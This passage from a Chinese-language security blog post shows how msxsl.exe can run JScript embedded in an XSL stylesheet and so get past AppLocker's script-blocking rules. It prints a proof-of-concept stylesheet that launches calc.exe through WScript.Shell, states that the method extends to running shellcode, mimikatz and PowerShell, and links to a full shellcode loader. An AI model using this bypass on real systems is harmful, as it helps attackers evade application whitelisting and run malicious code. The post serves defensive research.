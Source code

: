 

script.xml:

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      return nodelist.nextNode().xml;
	  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

成功执行JScript代码，弹出计算器，poc执行如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/2-2.png)

开启Applocker，添加规则拦截js脚本的执行，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/2-3.png)

但是使用msxsl仍然能够执行JScript代码

在之前的文章[《利用JS加载.Net程序》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8JS%E5%8A%A0%E8%BD%BD.Net%E7%A8%8B%E5%BA%8F/)介绍过利用JScript脚本加载.Net程序的方法，结合本文，可以得出推论：

**使用msxsl也能够执行c#代码**

具体来说，能够实现以下功能：

- 执行shellcode
- 执行mimikatz
- 执行powershell脚本

### 2、执行shellcode

可参照Cn33liz的StarFighters，地址如下：

https://github.com/Cn33liz/StarFighters/blob/master/StarFighter.js

结合Casey的POC，就能够实现利用msxsl执行shellcode

完整代码我已经上传至github，地址如下：

https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/shellcode.xml

测试如下图
